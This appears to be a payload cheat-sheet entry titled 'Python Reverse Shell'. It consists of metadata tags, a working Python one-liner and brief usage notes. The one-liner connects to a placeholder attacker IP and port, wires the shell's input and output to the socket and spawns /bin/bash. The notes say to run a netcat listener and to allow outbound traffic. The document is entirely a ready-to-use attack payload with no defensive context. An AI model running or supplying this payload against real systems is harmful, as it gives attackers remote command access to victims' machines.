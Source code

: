 ```yaml
---
payload_type: "Reverse Shell"
language: "Python"
tags: [payload/reverse-shell/python]
date: 2024-12-15
---
```

# Python Reverse Shell
## Command
```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Notes

- Ensure firewall allows outbound connections.
- Use netcat listener: `nc -lvnp port`.
